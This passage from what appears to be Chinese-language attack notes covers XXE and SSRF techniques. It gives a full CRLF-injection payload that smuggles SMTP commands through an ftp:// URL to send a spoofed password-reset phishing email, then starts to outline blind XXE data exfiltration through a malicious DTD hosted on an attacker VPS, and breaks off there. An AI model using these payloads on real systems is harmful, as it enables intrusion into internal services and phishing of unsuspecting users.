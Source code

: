    ```xml
   若8080端口close 则会报错回显
   ```

4. **钓鱼方法**：针对暴露的smtp服务，进行smtp协议请求

   ```
   例子：
   在扫描到内网25smtp服务
   在Java应用中下支持在sun.net.ftp.impl.FtpClient中的ftp URI。     这里仅借用ftp的数据发送接口（tcp流）
   因此，我们可以指定用户名和密码，进行ftp://user:password@host:port/test.txt。
   FTP客户端将在连接中发送相应的USER命令
   
   如果我们将%0D%0A (CRLF，回车换行)添加到URL的user部分的任意位置，我们就可以终止USER命令并向FTP会话中注入一个新的命令，即允许我们向25端口发送任意的SMTP命令：
   
   
   
   ftp://a%0D%0A
   EHLO%20a%0D%0A
   MAIL%20FROM%3A%3Csupport%40VULNERABLESYSTEM.com%3E%0D%0A
   RCPT%20TO%3A%3Cvictim%40gmail.com%3E%0D%0A
   DATA%0D%0A
   From%3A%20support%40VULNERABLESYSTEM.com%0A
   To%3A%20victim%40gmail.com%0A
   Subject%3A%20test%0A
   %0A
   test!%0A
   %0D%0A
   .%0D%0A
   QUIT%0D%0A
   :a@VULNERABLESYSTEM.com:25
   
   解析如下：
   ftp://a
   EHLO a
   MAIL FROM: <support@VULNERABLESYSTEM.com>
   RCPT TO: <victim@gmail.com>
   DATA
   From: support@VULNERABLESYSTEM.com
   To: victim@gmail.com
   Subject: Reset your password
   We need to confirm your identity. Confirm your password here: http://PHISHING_URL.com
   .
   QUIT
   :support@VULNERABLESYSTEM.com:25
   ```

5. **Blind XXE**

   如果服务器没有回显，只能使用Blind XXE漏洞来构建一条外带数据(OOB)通道来读取数据。

   1. 客户端发送payload 1给web服务器

   2. web服务器向vps获取恶意DTD，并执行文件读取payload2
